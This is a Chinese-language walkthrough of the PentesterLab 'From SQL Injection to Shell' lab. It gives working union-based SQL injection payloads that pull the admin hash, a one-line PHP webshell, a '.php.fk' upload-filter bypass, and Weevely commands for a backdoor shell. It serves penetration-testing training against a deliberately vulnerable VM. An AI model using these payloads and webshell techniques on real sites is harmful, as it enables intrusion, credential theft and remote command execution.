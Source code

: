 # 从SQL注入到Shell
![](images/cover.jpg)

# 实验过程

## 一. 环境搭建
- 首先, 在[PentesterLab](https://pentesterlab.com)的**[From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell)**课程网站上[下载](https://pentesterlab.com/exercises/from_sqli_to_shell/iso)靶机镜像文件`from_sqli_to_shell_i386.iso`
- 使用`VirtualBox`创建虚拟机并为其分配两块网卡
	- 一块NAT网卡用于上网
	- 一块Host-Only网卡用于宿主机的正常访问(或一块Internal网卡用于其他处于同一局域网内的虚拟机的正常访问)
- 开机后, 回车或什么都不做以自动选中**Live**模式
	![](images/boot.png)
- 经过一段短暂的加载滚屏后, 当出现`user@debian:~$`提示符后即表明加载完成
	![](images/user@debian.png)
- 此时执行`ifconfig eth1`以查看Host-Only网卡的IP地址
	![](images/ifconfig_eth1.png)  
	可以看到其IP为`192.168.56.101`
- 在宿主机上访问该IP地址, 若出现网站首页则说明环境搭建成功
	![](images/web-home.jpg)

## 二. 注入过程
- 大致思路: 
	1. 通过SQL注入获取网站管理员用户的账户密码
		1. 找到一个注入点
		2. 通过`order by`来判断查询返回的列数
		3. 通过`union select 1, 2, 3 ...` 来判断被输出的列
		4. 通过`union select`来获取其他信息(如管理员用户的账户密码)
	2. 以网站管理员身份上传webshell

### 1. SQL注入
- 容易发现一个可能的注入点: `http://192.168.56.101/cat.php?id=xxx`
	![](images/id=1.png)
- 先尝试将参数`id`的值改为`2-1`, 然后重新访问. 如果返回的是`id=2`的内容, 则说明此处可能不太容易进行注入; 如果返回的是`id=1`的内容, 则说明此处很有可能是个注入点
- 这里返回的是`id=1`的内容, 说明此处是一个注入点
	![](images/id=2-1.png)
- 此时我们观察页面内容, 不难猜测每一个"picture"的数据都来自于数据库查询结果中的一条记录. 其中"图像名"是可以输出的信息. 如果我们能判断图像名位于`select`子句中的第几列, 则可以构造出相应的`union select`语句来在"图像名"位置输出我们期望的内容.
	![](images/picture_name.png)
- 为了构造合法的`union select`语句, 我们需要先判断原始`select`子句查询出了多少列. 为了达到这个目的, 可以通过`order by`来进行探测.将`id`的值改为`1 order by 4`, 发现结果正常返回; 而当其值为`1 order by 5`时, 则返回了SQL的错误信息. 这说明查询的返回结果中有4列
	![](images/order_by_4.png)
	![](images/order_by_5.png)
- 此时, 我们将`id`改为`1 union select 1, 2, 3, 4`,则页面返回结果里必然会有一条图像名为1至4中某个数字的图像. 观察页面可以看到名为"2"的图像被查找到了, 说明第二列是图像名, 我们可以在后续的查找中将待输出的内容放在第二个位置.
	![](images/1234.png)
- 这时, 我们希望获取的内容位于`infomation_schema.columns`表的`table_name, column_name`两个字段中. 由于这里我们只有一列的内容被输出, 所以我们需使用`concat`函数将这两个字符串进行拼接. 因此, 我们将上面的`2`改为`concat(tablename, ':', column_name)`并在末尾添加`from infomation_schema.columns`, 进行访问, 可以看到输出了很多结果:
	![](images/concat.png)
- 在结果中可以发现一个疑似存储用户信息的表`users`
	![](images/users.png)
- 将这两个字段进行筛选, 即得到`admin`与`8efe310f9ab3efeae8d410a8e0166eb2`,显然后者有很大概率是个哈希值. 尝试直接使用其作为密码进行登录, 发现确实不行, 故准备根据哈希值反推原密码
	![](images/admin.png)
- 首先猜想其可能是直接`md5`哈希值. 通过本地工具或在线网站, 容易得到其正是`P4ssw0rd`的直接`md5`哈希值. 尝试使用其作为`admin`的密码进行登录, 成功
	![](images/admin_page.png)

### 2. 上传WebShell
- 首先在本地编写好WebShell并暂时命名为`123.php`
	```php
	<?php
	system($_GET['cmd']);
	```
- 尝试将其通过上传图片的方式进行上传, 发现网站识别出了其为php并且拒绝了此次上传
	![](images/no_php.png)
- 将其更名为`123.png`, 重新上传, 发现上传成功
	![](images/uploaded.png)
- 在管理员页面点击"图片名"`webshell`,进入到该图片的访问页面. 在网页源代码中找到其所在位置为`admin/uploads/123.png`
	![](images/src.png)
- 在地址栏中直接访问该地址, 发现该文件**虽然被正常获取但是却被服务器当成png图片进行了返回, 而没有将其当成php脚本来执行**
	![](images/fail.png)
- 将文件名改为`123.php.fk`重新上传, 发现这次该文件执行正常, `WebShell`成功建立
	![](images/cmd=.png)
- `cmd`参数可以被当成指令正确执行(在Chrome中, 为方便查看输出结果可以使用*显示网页源代码*模式)
	![](images/cmd=cat_etc_passwd.png)
- 至此, `WebShell`上传成功

## 三. 进阶操作
### 1. 高级Webshell
- 高级Webshell有很多, 这里使用`Kali`中的`Weevely`工具来生成与连接高级Webshell
	- 首先是生成:`weevely generate P4ssw0rd ~/123.php.fk`
		![](images/weevely_generate.png)
	- 然后将之上传至服务器上. 此时若直接在浏览器中对其进行访问将得不到任何输出. `Weevely`生成的Webshell需要通过`Weevely`进行连接: `weevely http://192.168.56.102/admin/uploads/123.php.fk P4ssw0rd`
		![](images/weevely_connect.png)
	- 如图, 刚连接进去时终端提示符为`weevely>`,此时敲击回车执行空命令即可得到`www-data@debian:/var/www/admin/uploads$`的终端提示符
